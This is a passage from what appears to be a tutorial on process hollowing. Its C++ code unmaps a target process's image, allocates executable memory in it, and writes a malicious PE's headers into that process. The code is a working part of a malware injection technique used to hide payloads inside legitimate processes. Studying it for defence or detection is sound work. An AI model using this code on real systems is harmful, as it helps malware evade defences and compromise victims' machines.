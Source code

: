 After the base address is stored, we can begin un-mapping memory. We can use ZwUnmapViewOfSection imported from ntdll.dll to free memory from the target process.

```
HMODULE hNtdllBase = GetModuleHandleA("ntdll.dll"); // Obtains the handle for ntdll
pfnZwUnmapViewOfSection pZwUnmapViewOfSection = (pfnZwUnmapViewOfSection)GetProcAddress(
	hNtdllBase, // Handle of ntdll
	"ZwUnmapViewOfSection" // API call to obtain
); // Obtains ZwUnmapViewOfSection from ntdll

DWORD dwResult = pZwUnmapViewOfSection(
	target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
	pTargetImageBaseAddress // Base address of the process
);
```

At step four, we must begin by allocating memory in the hollowed process. We can use VirtualAlloc similar to step two to allocate memory. This time we need to obtain the size of the image found in file headers. e_lfanew can identify the number of bytes from the DOS header to the PE header. Once at the PE header, we can obtain the SizeOfImage from the Optional header.

```
PIMAGE_DOS_HEADER pDOSHeader = (PIMAGE_DOS_HEADER)pMaliciousImage; // Obtains the DOS header from the malicious image
PIMAGE_NT_HEADERS pNTHeaders = (PIMAGE_NT_HEADERS)((LPBYTE)pMaliciousImage + pDOSHeader->e_lfanew); // Obtains the NT header from e_lfanew

DWORD sizeOfMaliciousImage = pNTHeaders->OptionalHeader.SizeOfImage; // Obtains the size of the optional header from the NT header structure

PVOID pHollowAddress = VirtualAllocEx(
	target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
	pTargetImageBaseAddress, // Base address of the process
	sizeOfMaliciousImage, // Byte size obtained from optional header
	0x3000, // Reserves and commits pages (MEM_RESERVE | MEM_COMMIT)
	0x40 // Enabled execute and read/write access (PAGE_EXECUTE_READWRITE)
);
```

Once the memory is allocated, we can write the malicious file to memory. Because we are writing a file, we must first write the PE headers then the PE sections. To write PE headers, we can use WriteProcessMemory and the size of headers to determine where to stop.

```
if (!WriteProcessMemory(
	target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
	pTargetImageBaseAddress, // Base address of the process
	pMaliciousImage, // Local memory where the malicious file resides
	pNTHeaders->OptionalHeader.SizeOfHeaders, // Byte size of PE headers 
	NULL
)) {
	cout<< "[!] Writting Headers failed. Error: " << GetLastError() << endl;
}
```
